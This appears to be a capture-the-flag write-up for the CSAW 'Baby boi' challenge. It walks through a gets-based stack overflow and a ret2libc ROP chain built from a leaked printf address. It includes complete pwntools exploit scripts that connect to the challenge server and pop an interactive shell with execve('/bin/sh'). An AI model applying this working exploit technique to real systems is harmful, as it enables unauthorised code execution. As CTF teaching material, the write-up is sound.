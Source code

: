 # Baby boi (50)

We are given a 64bit binary, a libc and even the source code .
Our first assumptions is that it's a BOF (Buffer OverFlow) challenge cuz we can see the `gets` function with no control of the input length.
And we can see also that it's giving us the address of `printf` in libc so no leak needed here.


![img1](executing.png)


and we also have the libc linked in the server so the attack scenario is simple:

1-get the leaked address of printf.

2-get the offset of printf in libc and calculate the base address.

3-collect needed gadgets and build the ROP chain.

4-from the base calculate the locations of `execve` and `/bin/sh` string to perform a ```execve("/bin/sh",0,0)``` call in order to get an interractive shell and then we can get the flag.


Let's start by getting offsets of printf and execve. To do that we can use `readelf` with `-s` option on the given libc to get the symbols table and from that we grep printf and execve.


![img2](readelf_printf.png)


we can see that the offset of printf in libc is `0x64e80`.


![img3](readelf_execve.png)


and the offset of execve in libc is `0xe4e30`.

okay let's start creating our exploit. Pwntools will make our life so much easier. First of all we have to get the leaked address and calculate the base location.


```python
from pwn import * 
env = {"LD_PRELOAD":"./libc-2.27.so"}
p = process("./baby_boi",env=env)
data = p.recv()
data = data.split("\n")[1]
data = data.split(" ")[3]
printf_libc = int(data,16)
base = printf_libc - 0x64e80
print "base: ",hex(base)
```

![img4](ex1.png)

if you notice that the base address of libc always ends with 000 that's because it's the beginning.

now we have to calculate the location of execve by adding the execve offset from libc to the base so the exploit become like:

```python
from pwn import * 
env = {"LD_PRELOAD":"./libc-2.27.so"}
p = process("./baby_boi",env=env)
data = p.recv()
data = data.split("\n")[1]
data = data.split(" ")[3]
printf_libc = int(data,16)
base = printf_libc - 0x64e80
print "base: ",hex(base)
execve = base + 0x00000000000e4e30
print "execve_libc: ",hex(execve)
```

we can use gdb to calculate of offset between `execve` and `/bin/sh` string in libc so we can calculate its location.

![img5](gdb.png)


we can see that the offset is `0xcf06a`.

Okay now we need just the gadgets to perform the call that we want execve needs 3 arguments so we have to control `rdi`,`rsi` and `rdx` and it's not a problem since we have the libc file and the libc base we can calculate locations for every gadget we want.

last step to go is to get the padding of the stack to control `RIP` or the instructions pointer peda is very good at this using its `pattern` tool with `create` and `offset` options.

![img6](patt.png)

We can see that the padding is 40 so our buffer is away 40 bytes from the saved return address.

Everything is ready now just we need to complete the exploit and run it:

```python
from pwn import * 
env = {"LD_PRELOAD":"./libc-2.27.so"}
#p = process("./baby_boi",env=env)
p = remote("pwn.chal.csaw.io",1005)

data = p.recv()
data = data.split("\n")[1]
data = data.split(" ")[3]
printf_libc = int(data,16)
base = printf_libc - 0x0000000000064e80
execve = base + 0x00000000000e4e30
binsh = execve + 0xcf06a
print "base: ",hex(base)
print "execve_libc: ",hex(execve)
print "binsh: ",hex(binsh)
pop_rdi = 0x0000000000400793
paylaod = ""
paylaod += "A"*40
paylaod += p64(0x0000000000400791)
paylaod += p64(0)
paylaod += p64(0)
paylaod += p64(pop_rdi)
paylaod += p64(binsh)
paylaod += p64(execve)
p.sendline(paylaod)
p.interactive()
```
![img7](final.png)

FLAG: `flag{baby_boi_dodooo_doo_doo_dooo}`
